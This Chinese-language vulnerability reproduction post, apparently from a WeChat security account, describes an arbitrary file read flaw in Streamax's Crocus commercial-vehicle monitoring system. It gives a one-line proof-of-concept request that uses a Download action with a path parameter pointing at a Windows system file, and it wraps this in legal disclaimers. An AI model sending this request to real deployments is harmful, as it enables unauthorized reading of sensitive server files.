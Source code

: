 #  【漏洞复现】锐明技术Crocus系统存在任意文件读取   
什么安全  什么安全   2025-02-05 01:47  
  
  请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！  
  
**产品描述**  
  
**深圳市锐明技术股份有限公司锐明技术Crocus系统融合了锐明技术的多项核心技术，如视频图像处理技术、卫星定位、物联网传感器、车载电子工程及无线通讯等，旨在为用户提供系统化、智能化的商用车监控和信息化解决方案。**  
  
**漏洞描述**  
  
**Crocus系统存在任意文件读取漏洞，攻击者可以通过该漏洞读取敏感信息。**  
  
**Poc**  
```
/Service.do?Action=Download&Path=C:/windows/win.ini
```  
  
**漏洞复现**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/w0DeFbFI15xD3t888fIS4XxMesLaYQmQzkCa8nvBYAt6mxjLmpoRohKljnticfTnApZicyUyQZfOVLXIV8hJN3Yg/640?wx_fmt=png&from=appmsg "")  
  
  
小  
知  
识  
  
  
  
  
**依据《刑法》第285条第3款的规定，犯提供非法侵入或者控制计算机信息罪的，处3年以下有期徒刑或者****拘役****，并处或者单处****罚金****;情节特别严重的，处3年以上7年以下有期徒刑，并处罚金。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gn0JbCnxttRbj4Mib3fcSfwr0tP4UxXtjf47HFwaZcgwWStzGNLNMlGKQJz902fHTT8PCfOwHedLqarXh0eC9KQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
声  
明  
  
  
  
**本文提供的技术参数仅供学习或运维人员对内部系统进行测试提供参考，未经授权请勿用本文提供的技术进行破坏性测试，利用此文提供的信息造成的直接或间接损失，由使用者承担。**  
  
****  
****  
